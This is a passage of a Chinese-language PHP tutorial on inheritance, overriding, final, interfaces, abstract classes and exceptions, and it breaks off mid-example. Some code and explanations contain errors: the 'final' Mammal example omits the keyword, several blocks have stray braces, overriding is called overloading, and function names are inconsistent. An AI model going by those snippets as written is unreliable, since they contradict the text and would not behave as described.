现在让我们创建一个名为Employee.php的新文件，在其中定义一个同名的类，该类继承自Person类：

```php
<?php
require_once 'Person.php';

class Employee extends Person {
    private $salary;

    public function __construct($name, $age, $salary) {
        parent::__construct($name, $age);
        $this->salary = $salary;
    }

    public function displayEmployeeDetails() {
        parent::displayDetails();
        echo ", Salary: $ " . $this->salary;
    }
}
```

这段代码定义了一个名为"Employee"的类，它扩展了父类"Person"。以下是代码各部分的详细解释：

require_once 'Person.php';：这一行包含文件"Person.php"，该文件包含父类"Person"。这使得"Employee"类可以扩展"Person"类。

class Employee extends Person {...}：这个类声明使用extends关键字，将"Employee"类创建为"Person"类的子类。这意味着"Employee"类将继承"Person"类的属性和方法。

private $salary;：这是一个特定于"Employee"类的新私有属性声明。它存储员工的薪水。

public function __construct($name, $age, $salary) {...}：这是"Employee"类的构造函数。它接受三个参数：员工的姓名、年龄和薪水。parent::__construct()函数使用姓名和年龄调用父类"Person"的构造函数。请注意使用双冒号运算符(::)来调用父构造函数。然后，使用作为参数传递的值初始化员工的薪水。

public function displayEmployeeDetails() {...}：这是一个添加的方法，用于通过使用父类"Person"的displayDetails()方法显示员工的详细信息，然后添加薪水的显示。parent::displayDetails()方法调用父类"Person"的displayDetails()方法来显示员工的姓名和年龄，然后将员工的薪水添加到显示中。

总之，这段代码创建了一个"Employee"类，它继承了"Person"类的功能，并添加了一个用于存储员工薪水的额外属性。构造函数初始化所有必要属性，而"displayEmployeeDetails()"方法显示员工的详细信息，包括其薪水。

要评估继承的功能，请将以下代码插入index.php文件中。

```php
<?php
require_once 'Person.php';
require_once 'Employee.php';

// Instantiate the Employee class
$employee1 = new Employee("John Dupont", 35, 50000);
```


```php
// Display employee details

$employee1->displayEmployeeDetails();

?>
```

此代码首先通过 require_once 指令包含 Person.php 和 Employee.php 类文件。有必要包含这些类，以便能够使用它们。

接下来，使用提供的详细信息（姓名、年龄和薪水）创建 Employee 类的一个实例。最后，在 $employee1 对象上调用 displayEmployeeDetails() 方法，以显示员工的详细信息，包括姓名、年龄和薪水。

执行此代码将产生以下结果：


## 重定义方法

方法重定义，也称为方法替换或方法重载，是面向对象编程中的一个继承特性，它允许子类为其父类中已定义的方法提供特定实现。这意味着子类可以提供继承方法的自己的实现，当在子类的对象上调用时，该实现将替换父类的实现。

在 PHP 中，通过在子类中声明与父类具有相同签名（名称和参数）的方法来重定义方法。当在子类的对象上调用此方法时，将执行子类的实现，即使该方法是从父类继承的。

这使得子类能够添加或修改从父类继承的行为，同时为类用户保持相同的接口（方法签名）。这有利于代码重用，并使对象行为能够适应子类的特定需求。

例如，"Person" 类的 displayDetails() 方法可以在 Employee 类中按如下方式重定义：

```php
<?php
require_once 'Person.php';

class Employee extends Person {
private $salary;

public function __construct($name, $age, $salary) {
parent::__construct($name, $age);
$this->salary = $salary;
}

public function displayDetails() {
parent::displayDetails();
echo ", Salary: $ " . $this->salary;
}
}
?>
```

在这个 Employee 类中，Person 类的 displayDetails() 方法被重定义以包含员工的薪水。当我们在 Employee 类的对象上调用此方法时，将使用 Employee 类中的特定重定义，覆盖从 Person 类继承的方法。换句话说，当我们在从 Employee 类创建的对象上调用 displayDetails() 方法时，将执行在 Employee 类中定义的此方法版本，而不是在 Person 类中定义的版本。

作为继承过程的一部分重定义方法的优势在于能够自定义继承方法的行为以满足子类的特定需求。这允许代码具有更大的模块化和可扩展性，因为子类可以扩展或修改继承方法的行为，而无需更改父类的代码。这样，每个类可以拥有自己的特定功能，同时受益于在父类中定义的常见功能，这鼓励代码重用并便于维护。

请注意，如果在父类中将方法声明为 public 或 protected，子类始终可以重定义父类的方法。这允许子类自定义继承方法的行为以满足其特定需求。但是，如果父类方法被声明为 private，则不能在子类中重新定义它，因为它在父类之外不可访问。

但是，如果你希望防止方法在子类中被重定义，只需在定义方法时使用 **最终** 关键字。事实上，当方法在父类中声明为最终时，这意味着它不能在继承自该父类的子类中被重新定义。这保证了方法的行为在子类中不会被修改，从而在代码设计中确保一定的稳定性和可预测性。

例如，如果使用最终关键字声明，则不能重新定义 displayDetails() 方法：

```php
final public function displayDetails() {
echo "Name: ". $this->name . ", Age: ". $this->age . " years";
}
```

在这种情况下，如果你在 Employee 类中重新定义此方法并运行 index.php 文件，你将得到一个错误，指示 Employee 类中的方法正在尝试重新定义在 Person 类中声明为最终的方法。

```
Fatal error: Cannot override final method Person::displayDetails() in /Applications/XAMPP/xamppfiles/htdocs/phppoo/Employee.php on line 12
```

## 连续继承

连续继承，也称为级联继承，是面向对象编程的一个概念，其中一个类不仅继承其直接父类的属性和方法，还继承该父类的所有父类的属性和方法，从而形成一个继承链。例如，类 D 可能从类 C 继承，而类 C 又从类 B 继承，类 B 又从类 A 继承。

### 连续继承的目标

- 代码重用性：允许重用父类和祖父类中已编写的代码，这有助于模块化和代码维护。
- 功能扩展：允许通过添加新属性和方法来扩展类的功能，同时继承来自父类的功能。

### 实际示例：

让我们看一个示例，其中包含 Animal、Mammal 和 Dog 类。Animal 类是基类，Mammal 类继承自 Animal 类，而 Dog 类又继承自 Mammal 类。这种关系创建了连续继承。

下面是代码示例：

### Animal.php：

```php
<?php

// Parent class
class Animal {
public function eat() {
echo "The animal eats. ";
}
}
```

### Mammal.php：

```php
<?php
require_once "Animal.php";
// Class inheriting from Animal
class Mammal extends Animal {
public function breastfeed() {
echo "The mammal nurses. ";
}
}
```

### Dog.php：

```php
<?php
require_once "Animal.php";
require_once "Mammal.php";
// Class inheriting from Mammal
class Dog extends Mammal {
public function bark() {
    echo "The dog barks. ";
}
}
```

### index.php：

```php
<?php
require_once 'Animal.php';
require_once 'Mammal.php';
require_once 'Dog.php';

// Using the classes
$dog = new Dog();
$dog->eat(); // Will display: The animal is eating.
$dog->breastfeed(); // Will display: The mammal is breastfeeding.
$dog->bark(); // Will display: The dog is barking.
?>
```

在这个示例中，Dog 类分别从其父类 Mammal 和 Animal 继承了 Eat() 和 Breastfeed() 方法。这说明了连续继承的实际应用。执行 index.php 时，你将得到以下结果：


### 继承深度

在面向对象编程中，通常没有限制你可以从一个类进行连续继承的次数。但是，重要的是要考虑你的系统设计，并避免过度的继承深度，因为这会使代码难以理解、维护和扩展。

过度的继承深度可能导致复杂性增加、类之间的强依赖以及过于僵化的层次结构，这可能使代码变得脆弱且难以修改。

简而言之，尽管你在技术上可以进行任意多次的连续继承，但最好设计你的系统以促进清晰度、灵活性和易于维护。

要停止连续继承，可以在类或方法的声明中使用最终关键字。当类被声明为最终时，这意味着它不能被其他类扩展。同样，当你将方法声明为最终时，这意味着它不能在子类中被重新定义（或重载）。

以下是如何使用最终关键字在 Mammal 类中停止连续继承：

```php
<?php
require_once "Animal.php";

// Class inheriting from Animal
class Mammal extends Animal {
public function breastfeed() {
echo "The mammal nurses. ";
}
}
```

在这段代码中，我们有 Mammal 类，它继承自 Animal 类。在 Mammal 类声明前使用关键字 **最终** 表示该类是最终类，这意味着它不能被


由其他类扩展。换句话说，没有类可以继承自 Mammal 类。

## 使用继承的目标与优势

在软件设计中使用继承可带来多项关键优势和目标：

**代码可重用性**：继承允许复用父类中已实现的代码，从而减少代码重复，并促进更高效、更模块化的软件设计。

**模块化与结构**：通过继承父类的功能，子类可以按层级组织，从而便于逻辑结构化和代码维护。

**扩展与定制**：子类可以通过添加新功能或重新定义现有功能来扩展其父类的行为。这使得可以根据每个子类的特定需求，灵活定制对象行为。

**抽象与多态**：如后续章节所述，继承促进了表示应用程序中通用概念的抽象类层级的创建。通过使用抽象类和接口，继承还便于实现多态，即不同类的对象可以被统一对待。

这些目标和优势共同使继承成为在 PHP 和其他面向对象编程语言中设计和实现健壮、可扩展且易于维护软件的强大工具。

## 结论

在本章中，我们深入探讨了面向对象编程中继承的概念。我们了解了类如何从其他类继承属性和方法，以及在 Web 设计中使用继承的优势和目标。

继承在类之间建立层级关系，子类可以受益于父类的功能，同时扩展或定制其行为。这鼓励代码复用，减少冗余，并便于软件维护。

我们还介绍了方法重定义、使用 **final** 关键字防止后续继承以及连续继承等高级概念。

通过充分理解继承并适当应用，开发人员可以设计灵活、模块化且可扩展的软件架构，有效满足开发项目不断变化的需求。

## 练习 28（延续练习 27）：

创建一个继承自 Vehicle 类的 Car 类，并添加一个名为 number_doors 的附加属性。Car 类还应包含一个考虑该附加属性的构造函数。

Car 类应为 number_doors 属性提供 getter 和 setter 方法，并包含一个 display() 方法，用于以字符串形式显示汽车信息，同时调用父类的 display() 方法。

然后，使用初始信息创建一个 Car 类型的对象，并使用 display() 方法和 setter 修改汽车信息。

### 第 17 章

## 接口和抽象类

在 PHP 面向对象编程的世界中，接口和抽象类在模块化、灵活且可扩展的软件设计中发挥着关键作用。这些概念为定义契约和基本结构提供了强大的机制，使开发人员能够创建组织良好、易于维护的类层级。

在本章中，我们将深入探讨接口和抽象类，首先对这些概念进行明确定义。我们将考察它们的语法、特性及根本差异，以及它们在软件设计中提供的优势。此外，我们还将通过具体示例说明它们在实际场景中的应用，并讨论如何充分发挥其潜力的最佳实践。本章将为您提供在 PHP 中掌握接口和抽象类所需的全部信息。

## PHP 接口

在 PHP 中，接口是用于定义类必须遵守的契约的强大面向对象编程工具。它们以结构化的方式声明类必须实现的方法，而不提供这些方法如何实现的详细信息。换句话说，接口定义了类能做什么，而不是如何做。

在本节中，我们将深入了解 PHP 中的接口。我们将了解如何声明和使用接口、PHP 中接口的语法、接口可以包含的方法，以及类如何实现这些接口。我们还将探讨在软件设计中使用接口的好处。

接口在创建模块化、灵活且可扩展的代码中发挥着关键作用。它们的使用保证了系统内类的一致性和符合性，同时便于类替换和多态。让我们深入了解 PHP 中接口的各个方面。

### 接口声明与语法

接口使用 interface 关键字后跟接口名称进行声明。它们提供了一个类必须实现的方法列表。要使用接口，类必须实现接口中定义的所有方法。

声明接口的语法如下：

```php
interface InterfaceName {
// methods declaration
}
```

接口只能包含方法签名，而不能包含方法体。这意味着接口中声明的方法没有函数体，只有方法声明。以下是名为 Connectable 的接口的代码示例，你将其放入一个新的 Connectable.php 文件中。

```php
<?php

// Interface declaration
interface Connectable {

// Connect method
public function connect();

// Disconnect method
public function disconnect();
}
?>
```

在本示例中，我们声明了一个名为“Connectable”的接口，其中包含两个方法：“connect()”和“disconnect()”。该接口定义了类在实现这些方法时必须遵守的契约。实现此接口的类必须为每个方法提供实现。请注意，接口名称必须具有描述性，清楚地指示接口的角色或功能。接口名称通常为单数，并且通常以大写字母开头，与类相同。例如：Connectable、Loggable、Calculable 等。

### 在类中实现接口

要使用接口，一个或多个类可以使用 implements 关键字实现一个或多个接口。当类实现接口时，必须为接口中定义的所有方法提供具体定义。

创建一个新的 Database.php 文件，并按如下方式实现 Connectable 接口：

```php
<?php
require_once 'Connectable.php';

class Database implements Connectable {
public function connect() {
    echo "Database connection established.";
}

public function disconnect() {
    echo "Database disconnected.";
}
}
?>
```

此代码定义了一个名为 Database 的类，它实现了 Connectable 接口。Connectable 接口包含两个方法：connect() 和 disconnect()，所有使用它的类都必须实现这两个方法。

这两个方法在 Database 类中都已实现。connect() 方法显示一条消息，指示已建立数据库连接；而 disconnect() 方法显示一条消息，指示数据库连接已关闭。

简而言之，此 Database 类可用于管理数据库连接，使用 Connectable 接口确保所有类以一致的方式实现连接和断开数据库所需的方法。

而在 index.php 文件中，你可以使用 Connectable 接口和 Database 类：

```php
<?php
require_once 'Database.php';

$database = new Database();
$database->connect();
echo "<br>";
$database->disconnect();
?>
```

此代码首先包含 Database.php 文件，该文件包含我们刚刚看到的 Database 类定义。接着，使用默认构造函数创建 Database 类的一个实例。最后，依次调用该实例的 connect() 和 disconnect() 方法。

这意味着，通过调用 connect() 方法来建立数据库连接，该方法会显示一条指示连接已建立的消息。接着，调用 disconnect() 方法关闭连接，该方法会显示一条指示连接已关闭的消息。当你运行此代码时，将得到类似于以下结果的输出：


## 接口实现与类行为

例如，当我们定义一个 Person 接口时，我们就建立了一个行为契约，所有实现该接口的类都必须遵守。例如，如果我们有 Author、Teacher、Student 和 Admin 等类实现此接口，这意味着这些类中的每一个都必须为 Person 接口中声明的所有方法提供实现。

例如，Person 接口可能定义 getName()、getAge() 和 introduceYourself() 等方法，这些方法对于实现此接口的所有类都是必需的。然后，每个具体类必须为这些方法提供实现，以遵守 Person 接口定义的契约。

虽然实现 Person 接口的每个类都必须为该接口中声明的所有方法提供实现，但这些实现可以因类而异。每个类可以根据其角色或特定特征拥有自己的特定行为。

例如，introduceYourself() 方法可能会为作者显示与教师不同的介绍，因为他们的角色和属性可能不同。同样，getRole() 方法可能会根据人员类型返回不同的值，以指示他们是作者、教师、学生、管理员等。

Person 接口仅提供一个契约，确保所有实现它的类都将共享某些基本功能。但是，这些功能的具体细节可能会根据上下文和每种人员类型的预期行为而有所不同。

## Person 接口

implements

## Author 类

## Teacher 类

## Student 类

## Admin 类

## 接口的多重使用

在面向对象编程中，一个类通常需要能够实现多个接口，以便受益于每个接口提供的功能。这种实现多个接口的能力被称为“接口的多重使用”。在 PHP 中，一个类可以实现所需数量的接口，从而能够根据其实现的不同接口定义一套完整的行为。

接口的多重使用在类设计中提供了更大的灵活性和模块化。这允许将不同功能分离到不同的接口中，使代码更易读、更易维护且更易扩展。它还促进了代码复用，因为一个类可以通过实现适当的接口在不同的上下文中使用。

要在 PHP 类中实现多个接口，只需在类声明中用逗号列出接口名称即可。例如：

在新的 InterfaceA.php 文件中定义 InterfaceA

```
interface InterfaceA {
    public function methodA();
}
```

在新的 InterfaceB.php 文件中定义 InterfaceB

```
interface InterfaceB {
    public function methodB();
}
}

在新的 InterfaceC.php 文件中定义 InterfaceC

```
interface InterfaceC {
public function methodC();
}
```

在新的 MyClass.php 文件中定义 MyClass 类。

```
class MyClass implements InterfaceA, InterfaceB, InterfaceC {
public function methodA() {
// methodA implementation
}

public function methodB() {
// methodB implementation
}

public function methodC() {
// methodC implementation
}
}
```

在此示例中，MyClass 类实现了 InterfaceA、InterfaceB 和 InterfaceC，因此必须为这些接口中定义的所有方法提供实现。这使得 MyClass 可以访问这些接口中定义的功能，并且可以在需要其中任何一个接口的地方使用。

接口的多重使用是创建灵活、模块化类的一个强大概念，并有助于提升面向对象应用程序的健壮性和可维护性。

## 使用接口的优势

编程中的接口提供多种优势和功能：

-   **清晰且一致的契约**：接口定义了一个类必须实现的一组方法。这在开发人员之间建立了明确的契约，指明哪些功能可用以及如何使用它们。

-   **灵活性和可扩展性**：接口允许定义不同类可以特定实现的通用行为。这使得代码更具灵活性和可扩展性，因为可以通过简单地实现新接口来添加新功能，而无需修改现有类。

-   **代码复用**：接口通过定义多个类可以共享的标准化功能来鼓励代码复用。这有助于模块化设计并便于代码维护。

-   **依赖契约而非实现**：使用接口可以依赖契约而非特定实现。这有助于软件组件之间的松耦合，使代码更易于测试、维护和更新。

-   **多态性**：接口使应用多态性原则成为可能，即不同的类可以通过一个共同的接口被统一对待。这允许编写通用代码并以更抽象的方式操作对象。

总之，接口提供了一种强大的方式来定义软件系统不同部分之间的契约，从而产生更模块化、更灵活且更易扩展的代码。

## 抽象类

抽象类是 PHP 面向对象编程中的一个关键概念。它们允许你定义无法直接实例化的类模型，但这些模型可作为其他继承自它们的类的基础。当你希望为某些功能提供基本实现，同时允许派生类（子类）根据其特定需求自定义或扩展这些功能时，会使用抽象类。

### 声明和使用抽象类

要在 PHP 中声明抽象类，请在 class 关键字前使用 abstract 关键字。抽象类可以同时包含具体方法（带有实现）和抽象方法（没有实现）。抽象方法充当一个“契约”，派生类必须通过提供自己的实现来履行该契约。

### PHP 中的抽象类语法

以下是在 PHP 中声明抽象类的示例：

```
<?php
abstract class MyAbstractClass {
// Abstract method
abstract public function myAbstractMethod();

// Concrete method
public function myConcreteMethod() {
  // Implementation
}
}
}
```

此代码说明了名为 MyAbstractClass 的抽象类的声明。以下是代码中各部分的含义：

- 类声明前的 **abstract** 关键字表示它是一个抽象类，这意味着它不能直接实例化。
- myAbstractMethod() 方法使用 **abstract** 关键字声明为抽象方法。抽象方法是在抽象类中没有主体（即没有实现）的方法。继承自此抽象类的类必须为该方法提供自己的实现。
- myConcreteMethod() 方法是一个具体方法，这意味着它在抽象类中具有实现。与抽象方法不同，具体方法带有带有实现的主体。继承自此抽象类的类也将带有其默认实现地继承此方法，但如果需要，它们可以重新定义它。

简而言之，此抽象类 MyAbstractClass 提供了一个基础，包含一个由子类实现的抽象方法，以及一个可以按原样使用或在派生类中按需要重新定义的具体方法。

### 实现抽象类

抽象类不能直接实例化。要使用它们，您需要创建一个或多个扩展它们的类。具体做法如下：

定义扩展抽象类的具体类：使用 **extends** 关键字创建一个新类以继承自抽象类。此类必须为父抽象类中定义的所有抽象方法提供实现。

实现抽象方法：对于父抽象类中定义的每个抽象方法，在子类中提供一个实现。实现的方法必须与父类的抽象方法的签名（名称和参数）匹配。

使用具体类：一旦具体类已实现，您可以像使用其他任何类一样实例化它并使用其方法。您还可以通过创建子类来进一步扩展具体类，这些子类将继承其功能。

以下是在 PHP 中使用抽象类的实际示例：

创建一个抽象类 Shape (Shape.php)：

```
<?php

// Abstract class definition
```


```
abstract class Shape {
    abstract public function calculateArea();

    // Concrete method
    public function displayType() {
        echo "This shape is of type: " . get_class($this);
    }
}
```

在这段代码中，我们定义了一个名为 Shape 的抽象类。该类包含一个抽象方法 calculateArea()，所有继承此类的子类都必须实现该方法。抽象方法是在抽象类本身中声明但未实现的方法。由每个子类根据自身逻辑来实现此方法。

除了抽象方法之外，Shape 类还包含一个名为 displayType() 的具体方法。具体方法是在抽象类本身中具有实现的方法。在这种情况下，displayType() 方法使用原生 PHP 函数 get_class($this) 来检索当前对象的类名（即类的实例），从而可以显示形状的类型。

在抽象类中使用具体方法可以提供子类在必要时可使用的默认实现。这些方法对于所有子类共享的功能或实用函数非常有用。

要使用此抽象类，请创建一个从抽象 Shape 类继承的 Rectangle 类：

```
<?php
require_once "Shape.php";

// Definition of a concrete class that extends the abstract class
class Rectangle extends Shape {
    private $length;
    private $width;

    public function __construct($length, $width) {
        $this->length = $length;
        $this->width = $width;
    }

    // Implementation of the abstract method calculateArea
    public function calculateArea() {
        return $this->length * $this->width;
    }
}
```

在这段代码中，我们定义了一个扩展抽象 Shape 类的 Rectangle 类。这意味着 Rectangle 类继承了 Shape 类的所有抽象方法，并且必须实现这些方法。

Rectangle 类有两个私有属性 $length 和 $width，分别表示矩形的长度和宽度。这些属性在类的构造函数中初始化。

calculateArea() 方法是在 Shape 类中定义的抽象方法。在 Rectangle 类中，我们需要为此方法提供具体实现。在这里，在 Rectangle 类的 calculateArea() 方法中，我们只需返回长和宽的乘积来计算矩形的表面积。

简而言之，Rectangle 类扩展了抽象 Shape 类，实现了抽象 calculateArea() 方法，并针对矩形的特定属性为此方法提供了具体实现。

然后，您可以实例化 Rectangle 类并相应地间接使用抽象 Shape 类。在 index.php 文件中，插入以下代码：

```php
<?php

require_once "Rectangle.php";

// Using the Rectangle class

$rectangle1 = new Rectangle(5, 3);
echo "Rectangle area : ".$rectangle1->calculateArea()."<br>";
$rectangle1->displayType();
```

运行这段代码时，您将得到以下结果：


## 抽象类及其派生类的行为

例如，假设存在一个抽象类 Person，该类充当表示所有人类型共享特征和行为的通用基础模型，但无法直接实例化。Author、Teacher、Student 和 Admin 等特定类扩展抽象类 Person，从而继承其属性和方法，同时也能够定义自身的特定属性和行为。

例如，抽象类 Person 可以定义姓名、年龄和电子邮件地址等属性，以及 introduce() 等方法，以允许每种类型的人以一般方式进行自我介绍。Author、Teacher、Student 和 Admin 等子类将继承这些基本属性和方法，但也可以定义针对其角色或职责的特定方法，例如作者的 publishBook() 或教师的 teachClass()。

通过继承抽象类 Person，每个子类都能获得通用结构，并且在由期望接收 Person 实例的方法或函数操作时可以得到统一处理。不过，每个子类都有灵活性，可以通过定义特定于其角色的方法来专门化其行为。这使得在软件系统中能够对不同类别的人员进行模块化管理和逻辑组织。


## 接口与抽象类的区别

接口和抽象类是面向对象编程中的基本概念，但它们具有不同的特点，使其适用于不同的场景和设计需求。以下是接口与抽象类之间的主要区别：

### 定义：

- 接口：接口通过指定类必须实现的方法来定义行为契约，但不提供这些方法的具体实现。
- 抽象类：抽象类可以同时包含抽象（未实现）和具体（已实现）方法，提供结构与行为的结合。

### 实现：

- 接口：类通过提供接口中声明的所有方法的具体定义来实现接口。
- 抽象类：类通过提供抽象类中定义的所有抽象方法的实现来扩展抽象类，同时还可以重新定义或扩展现有的具体方法。

### 继承：

- 接口：类可以实现多个接口，从而能够定义多种行为。
- 抽象类：类只能扩展一个抽象类，从而能够进行更具体的行为专业化。

### 灵活性：

- 接口：接口提供最大灵活性，使类能够实现彼此完全独立的行为，从而促进模块化设计。
- 抽象类：抽象类提供的灵活性更有限，因为类只能扩展一个抽象类，这使得类与特定的类层次结构更加紧密地绑定。

通过了解接口与抽象类之间的这些基本区别，开发人员可以选择最适合其应用程序和软件架构特定需求的方法。

## 结论

在本章中，我们探讨了 PHP 中的接口和抽象类概念，它们是面向对象编程的强大工具。我们学习了如何定义、使用和实现接口，以及如何创建和扩展抽象类。我们还考察了两种方法之间的区别，并讨论了它们各自的适用场景。

接口提供了一种在类之间定义灵活行为契约的方式，促进代码的可组合性和模块化。它们允许在不修改现有类层次结构的情况下为其添加功能，因此在灵活性和兼容性很重要的场景中特别有用。

另一方面，抽象类提供带有共享行为的通用结构，并允许建立特定的类层次结构。它们提供方法的部分实现，并可作为更专业派生类的起点。

通过审慎地结合使用接口和抽象类，开发人员可以设计健壮、灵活且模块化的软件系统，这些系统能够适应变化并随项目需求不断发展。

### 第 18 章

### 异常处理

异常处理是任何健壮软件系统的重要组成部分。在编程中，异常是程序执行期间由于非正常情况或错误而发生的事件，会中断操作的正常流程。异常可能由各种因素引起，例如语法错误、逻辑错误、意外情况或源自外部资源的错误。

在本章中，我们将详细探讨什么是异常处理、为什么它很重要，以及它在 PHP 中如何实现。我们将了解与异常相关的基本概念、有效处理异常的最佳实践，以及如何使用 PHP 提供的机制在我们的程序中检测、报告和处理异常。通过了解如何处理异常，开发人员可以提高其应用程序的可靠性、健壮性和安全性，从而保证更好的用户体验和更好的代码可维护性。


## 异常简介

### 异常定义

异常是程序执行期间发生的异常或意外情况，会中断正常的执行流程。更准确地说，异常表示发生了意外情况，程序不知道如何处理。

在 PHP 中，异常由预定义类 Exception 或其子类的实例表示。当异常被抛出时，通常伴随描述发生错误的消息。

异常可能由多种原因引起，例如语法错误、逻辑错误、输入/输出错误、数据库错误，或任何其他导致程序无法正常运行的意外情况。

正确使用异常可以实现更有效的错误处理，并确保应用程序具有更好的可靠性和健壮性。通过适当识别和处理异常，开发人员可以创建更稳定、更可靠的应用程序，从而提供更好的用户体验。

### 异常与错误类型

程序执行过程中遇到的各种错误都可能触发异常。以下是一些可能触发异常的常见错误类型：

- 语法错误：当代码不遵循编程语言的语法时，会发生语法错误。例如，由于拼写错误、遗漏分号或控制结构使用不当，可能会发生语法错误。
- 逻辑错误：由于对要解决的问题理解错误或算法实现不当，导致代码无法按预期工作时，会发生逻辑错误。这些错误可能导致意外情况或错误结果。
- 运行时错误：程序执行期间会发生运行时错误，可能由数据不正确、资源不可用、硬件问题或意外情况等因素引起。例如，尝试访问不存在的文件或不可用的网络资源时，可能会发生运行时错误。
- 数据操作错误：当数据本身存在问题（如数据丢失、不正确或损坏）时，会发生数据操作错误。例如，将字符串转换为数字时，如果字符串不表示有效数字，可能会发生错误。
- 输入/输出（I/O）错误：当 I/O 操作出现问题（如读取或写入文件、与外围设备通信或访问外部资源）时，会发生 I/O 错误。这些错误可能由文件丢失、授权不足或硬件错误等问题引起。

简而言之，各种类型的错误（无论是与代码语法、逻辑、执行、数据操作还是 I/O 操作相关）都可能触发异常。适当处理这些异常对于保证应用程序的可靠性和稳定性至关重要。

## 异常管理目标

异常处理的目标多种多样，主要旨在提高应用程序的可靠性、健壮性和可维护性。以下是使用异常的一些关键目标：

- 错误处理：异常提供了一种高效且结构化的错误处理机制。它们能够在错误发生时检测和报告，从而更容易解决。
- 提高代码可读性：通过使用异常，可以将代码结构化，使错误处理与正常执行流程分离。这样代码更易读、更易懂，因为异常处理块可以与主业务代码分开。
- 简化错误处理逻辑：异常将业务逻辑与错误处理逻辑分离。这通过将错误处理移至代码的特定部分来简化代码，从而便于维护和扩展。
- 错误传播：异常可以在应用程序的各个层级之间传播，使错误能够追溯到可以适当处理的位置。这确保错误在适当层级处理，并避免执行流程出现意外中断。
- 集中式错误处理：通过使用异常，错误可以在应用程序的特定部分（如全局异常处理器）中集中处理。这简化了错误管理，并能更好地追踪问题。

简而言之，异常通过实现高效的错误处理，在创建可靠、健壮的应用程序中发挥着关键作用。它们有助于提高代码质量、可读性、可维护性以及应用程序稳定性。

## 异常的用途

PHP 中的异常处理允许你管理程序执行期间可能出现的错误和异常情况。你可以在代码中的任何位置使用 **抛出** 关键字抛出异常。以下是如何在 PHP 中使用异常，附带相关示例：

请参阅以下代码，例如，你可以将其放在 index.php 中：

```php
<?php
function calculateAge($birthYear) {
    $currentYear = date("Y");
    $age = $currentYear - $birthYear;
    if ($age < 0) {
        throw new Exception("Invalid birth year.");
    }
    return $age;
}

try {
    echo calculateAge(2005); // Will display age if birth year is valid
} catch (Exception $e) {
    echo "Error: ". $e->getMessage();
}
```

此代码定义了一个 calculateAge() 函数，该函数以出生年份为参数，并返回用当前年份减去该出生年份计算得出的年龄。如果计算出的年份为负数（这将表示出生年份无效），则会附带消息“无效的出生年份”抛出一个 Exception。

接下来，代码使用 try-catch 块调用 calculateAge() 函数，并传入特定的出生年份（在此示例中为 2005）。如果出生年份有效且函数 calculateAge() 成功返回计算出的年龄，则会显示该年龄。但是，如果在函数执行期间引发异常（例如，由于出生年份无效），catch 块将捕获该异常并显示适当的错误消息。

由于此示例中指定的出生年份（2005）有效，代码将通过用当前年份减去出生年份来返回年龄。

但是，如果在 calculateAge() 函数参数中指定无效的出生年份（例如 calculateAge(2040)），代码将生成一个异常。

显示的错误消息将类似于以下内容：


在这种情况下，由于出生年份 2040 相对于当前年份处于将来，计算出的年龄将为负数。这将导致附带消息“Error: Invalid birth year.”的异常。catch 块随后捕获此类型为 Exception 的异常，并显示错误消息“Error: Invalid birth year”。

## 自定义异常

在许多实际案例中，有必要使用特定错误代码、上下文数据或更具描述性的消息等附加信息来丰富异常。这有助于调试和长期代码维护。这通常需要创建自定义异常。这些自定义异常封装特定的错误处理行为，使代码更加模块化且更易于维护。这种方法还有助于更好的错误处理和更清晰的代码组织，从而提高应用程序的可读性和可维护性。

创建一个名为例如 fileRead.php 的新文件，并在其中放入以下代码：

```php
<?php
// Define custom exception for file operations
class FileException extends Exception {
// Constructor with default message
public function __construct($message = "File error") {
parent::__construct($message);
}

// Function to add additional information
public function fileInfo() {
return "Problem with file path: " . $this->getFile()
."<br>"
."Error line: " . $this->getLine()
."<br>"
."Error code: " . $this->getCode();
}
}

// File read function with custom exception handling
function fileRead($path) {
```

```php
if (!file_exists($path)) {
    throw new FileException("The file '$path' does not exist.");
}

// File read code...
return "Contents of file '$path";
}

// Using the function with exception handling
try {
    echo fileRead("example.txt");
} catch (FileException $e) {
    echo "Error: " . $e->getMessage() . "<br>";
    echo "Details: " . $e->fileInfo();
}
?>
```

这段代码定义了一个名为 FileException 的自定义异常，用于处理与文件操作相关的错误。以下是代码的详细解释：

**定义 FileException 类**：这个类扩展了 PHP 的基本 Exception 类，使其成为一个自定义异常。它有一个 fileInfo() 方法，返回关于异常的其他信息，例如文件路径（$this->getFile()）、引发异常的行数（$this->getLine()）以及关联的错误代码（$this->getCode()）。getFile()、getLine() 和 getCode() 方法是 Exception 类的原生方法。

**FileException 类构造函数：** 类构造函数接受一个可选的 $message 参数，表示抛出 FileException 时要显示的错误消息。默认情况下，此消息定义为 "File error"。然后构造函数调用父类 Exception 类的构造函数，传递错误消息。

**readFile() 函数：** 该函数将要读取的文件路径作为参数。它首先使用 **file_exists()** 函数检查文件是否存在。如果文件不存在，则抛出一个 FileException，并附带特定的错误消息，指示文件不存在。否则，它会模拟读取文件，并返回一条指示文件内容的消息。

使用带有异常处理的函数：代码使用 fileRead() 函数来读取名为 "example.txt" 的文件的内容。它被包裹在 **try-catch** 块中，以捕获任何 FileException。如果抛出异常，则向用户显示错误消息，并附带由异常的 **fileInfo()** 方法提供的更多详细信息。

总结来说，这段代码说明了如何创建和使用自定义异常来处理特定于文件操作的错误，同时提供其他信息以方便调试和故障排除。

此时，如果运行 fileRead.php 文件，将得到类似于以下的结果：

错误：文件 'example.txt' 不存在。
详情：文件路径有问题：/Applications/XAMPP/xamppfiles/htdocs/phppoo/readfile.php
错误行：23
错误代码：0

但是，如果在项目根目录下创建一个名为 example.txt 的文件并运行 fileRead.php 文件，将得到以下结果：

### 文件 'example.txt' 的内容

## PHP 中的 PDOException

数据库操作错误是 Web 开发中常见的情况。PHP 提供了一个特定的异常类 PDOException 来处理这些情况。

PDOException 是一个 PHP 特有的异常类，当使用 PDO（PHP 数据对象）扩展访问数据库时发生错误时会触发。

PDOException 在数据库错误处理中起着至关重要的作用，使开发人员能够高效地捕获、处理和管理 SQL 查询执行期间发生的错误。

### 使用 PDOException

捕获 PDOException：PDO 错误会自动转换为 PDOException 实例。要捕获 PDOException，可以在执行 SQL 查询的代码周围使用 try-catch 块。

**错误处理**：捕获后，PDOException 会提供有关错误的详细信息，例如错误消息、SQLSTATE 错误代码和数据库特定的错误代码。

**错误处理**：开发人员可以使用 PDOException 提供的信息来决定如何处理错误，例如显示用户友好的错误消息或记录错误以便调试。

### PDOException 示例

让我们开发一段简单的代码来连接数据库：

```php
<?php
try {
    // Attempt to connect.
    $db = new PDO('mysql:host=localhost;dbname=Users','root','');
    echo 'Connection successful!'; // If the connection is successful, this message will be displayed
}
catch (PDOException $e) // We catch PDOExceptions.
{
